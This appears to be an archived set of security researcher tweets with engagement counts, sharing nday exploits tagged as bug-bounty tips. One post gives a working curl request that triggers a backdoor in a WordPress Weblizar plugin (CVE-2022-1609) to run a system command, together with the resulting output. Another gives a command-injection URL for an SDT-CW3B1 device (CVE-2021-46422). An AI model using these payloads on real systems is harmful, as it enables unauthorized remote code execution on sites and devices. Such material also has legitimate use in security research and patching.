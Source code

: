 * http://noahblog.360.cn/a-new-exploit-method-for-cve-2021-3560-policykit-linux-privilege-escalation-en/

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>13</code></td>
<td>Favorites: <code>61</code></td>
</tr></table>

---

# momika233
**https://twitter.com/momika233/status/1529694086193508353 _at 2022-05-26, 05:21:05_**
<blockquote>
CVE-2022-1609 WordPress Weblizar  Backdoor

$ curl -s -d 'blowfish=1' -d "blowf=system('id');" 'http://localhost:8888/wp-json/am-member/license'

uid=33(www-data) gid=33(www-data) groups=33(www-data)
#bugbounty #bugbountytips #nday
</blockquote>

<table><tr>
<td>Quotes: <code>5</code></td>
<td>Replies: <code>13</code></td>
<td>Retweets: <code>271</code></td>
<td>Favorites: <code>823</code></td>
</tr></table>

---

# momika233
**https://twitter.com/momika233/status/1528742287072980992 _at 2022-05-23, 14:18:58_**
<blockquote>
SDT-CW3B1 1.1.0 - OS Command Injection CVE-2021-46422

poc:hxxp://x.x.x.x/cgi-bin/admin.cgi?Command=sysCommand&amp;Cmd=id
#0day #nday #CVE #bugbountytips #bugbounty https://t.co/PPJZZ1EStb
</blockquote>

<table><tr>
<td><img src="pictures/a339736a634440283275b4794ba0c3f7fc71ce91f5a50623773080fe37fd76b3.jpg" alt="a339736a634440283275b4794ba0c3f7fc71ce91f5a50623773080fe37fd76b3.jpg"></td>
</table></tr>
<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>15</code></td>
<td>Retweets: <code>143</code></td>
<td>Favorites: <code>451</code></td>
</tr></table>

---